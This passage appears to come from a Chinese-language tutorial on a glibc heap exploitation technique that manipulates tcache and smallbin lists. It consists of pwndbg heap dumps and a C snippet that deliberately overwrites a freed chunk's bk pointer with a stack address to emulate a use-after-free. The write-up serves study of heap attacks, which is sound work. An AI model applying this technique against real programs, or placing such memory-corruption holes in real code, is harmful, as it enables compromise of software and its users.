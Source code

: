 ```c
......
0x555555757610:	0x0000000000000000	0x00000000000000a1 #chunk_lis[6](free-tcachebin)
0x555555757620:	0x0000555555757580	0x0000555555757010
......
0x5555557576b0:	0x0000000000000000	0x00000000000000a1 #chunk_lis[7](free-tcachebin)
0x5555557576c0:	0x0000555555757620	0x0000555555757010
......
0x555555757750:	0x0000000000000000	0x00000000000000a1 #chunk_lis[8](free-tcachebin)
0x555555757760:	0x00005555557576c0	0x0000000000000000
......
0x5555557577f0:	0x0000000000000000	0x00000000000000b1 #chunk(malloc)
......
0x5555557578a0:	0x0000000000000000	0x0000000000020761 #top_chunk
......
0x555555757950:	0x0000000000000000	0x0000000000000000
pwndbg>
```

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1621220384137-9d9b4a7d-3e6d-45d5-aea0-c238de71e03e.png)

```c
smallbins
0xa0: 0x555555757390 —▸ 0x555555757250 —▸ x (main_arena+240) ◂— 0x555555757390
	  #后释放【chunk2】   #先释放【chunk0】
```

现在我们开始攻击，假如说现在有UAF或者堆溢出漏洞可以修改chunk_lis[2]的bk指针，这里我们将其修改为之前伪造的stack地址（b 67->c）：

```c
    printf("Now we emulate a vulnerability that can overwrite the victim->bk pointer into fake_chunk addr: %p.\n\n",(void*)stack_var);

    //change victim->bck
    /*VULNERABILITY*/
    chunk_lis[2][1] = (unsigned long)stack_var;
    /*VULNERABILITY*/
```

```c
pwndbg> x/300gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000251 #tcache
0x555555757010:	0x0000000000000000	0x0000000000000005
......
0x555555757090:	0x00005555557576c0	0x0000000000000000
......
0x555555757250:	0x0000000000000000	0x00000000000000a1 #chunk_lis[0](free-smallbin)
0x555555757260:	0x00007ffff7dcdd30	0x0000555555757390
......
0x5555557572f0:	0x00000000000000a0	0x00000000000000a0 #chunk_lis[1](malloc)
0x555555757300:	0x0000555555757760	0x0000000000000000
......
0x555555757390:	0x0000000000000000	0x00000000000000a1 #chunk_lis[2](free-smallbin)
0x5555557573a0:	0x0000555555757250	0x00007fffffffdcc0
    							   #0x00007ffff7dcdd30
......
0x555555757430:	0x00000000000000a0	0x00000000000000a0 #chunk_lis[3](free-tcachebin)
0x555555757440:	0x0000000000000000	0x0000555555757010
......
0x5555557574d0:	0x0000000000000000	0x00000000000000a1 #chunk_lis[4](free-tcachebin)
0x5555557574e0:	0x0000555555757440	0x0000555555757010
......
0x555555757570:	0x0000000000000000	0x00000000000000a1 #chunk_lis[5](free-tcachebin)
0x555555757580:	0x00005555557574e0	0x0000555555757010
......
0x555555757610:	0x0000000000000000	0x00000000000000a1 #chunk_lis[6](free-tcachebin)
0x555555757620:	0x0000555555757580	0x0000555555757010
```